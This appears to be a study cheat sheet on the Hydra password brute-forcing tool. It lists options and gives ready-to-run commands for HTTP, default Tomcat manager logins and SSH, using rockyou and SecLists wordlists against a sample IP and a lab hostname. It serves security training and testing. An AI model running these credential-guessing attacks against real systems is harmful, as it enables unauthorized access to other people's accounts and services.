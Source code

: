 # hydra

## Overview

Hydra is a handy tool for Login Brute Forcing, as it covers a wide variety of attacks and services and is relatively fast compared to the others. It can test any pair of credentials and verify whether they are successful or not but in huge numbers and a very quick manner.

## Installation

	apt install hydra

## Options

	-U : shows the parameters required by an hydra module
	-C <path_to_wordlist>: Combined credentials wordlist
	-L <path_to_username_wordlist> : username wordlist
	-l <username> : specify a static username to use
	-P <path_to_passoword_wordlist> : password wordlist
	-p <password> : specify a static password to use
	-s <port>: target port
	-f : tell hydra to stop when we have a successfull brute force
	-u: tells hydra to first try all users for each password. Instead of the normal behaviour of trying all passwords for each user. This is usefull for gigantic password lists like rockyou
	http-get : Get request method
	/ : Target url path

## Usage

	hydra -C <path_to_wordlist> <server_ip> -s <port> http-get /

Using different wordlists

	hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /

Default Login popup on a webserver

	hydra -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt <ip_target> -s 8080 http-get /manager/

Bruteforce ssh

	└─$ hydra -L users.txt -P passwords.txt ssh://editorial.htb
